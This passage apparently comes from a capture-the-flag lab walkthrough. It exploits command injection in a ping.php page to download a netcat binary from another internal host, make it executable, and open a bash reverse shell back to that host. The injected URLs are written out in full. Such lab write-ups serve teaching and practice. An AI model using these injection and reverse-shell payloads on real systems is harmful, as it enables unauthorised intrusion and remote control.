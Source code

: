 ```text
http://localhost:8000/ping/ping.php?host=; wget http://172.17.0.5:9000/nc
http://localhost:8000/ping/ping.php?host=; chmod 777 nc
http://localhost:8000/ping/ping.php?host=; ls -la nc; pwd
```

![ceece73e45cb8560b79f155fe755b2fa.png](/images/vh-nully1/403bb1f7e28f4ff195f5ef370f98aad4.png)

![81b2d647366567d77c665c7d7e6b8f8b.png](/images/vh-nully1/0ea0024d88fc4ad880b738bdeb39932e.png)

Great, now we can get a bash reverse shell from the WebServer back to the MailServer. 

```text
http://localhost:8000/ping/ping.php?host=; /var/www/html/ping/nc 172.17.0.5 9000 -e /bin/bash
```

![0c060136c33153d22128881d3689811b.png](/images/vh-nully1/a5d8e48c1f5e4afdab449fb1ffe0b1a0.png)

Let's enumerate a bit using this. 
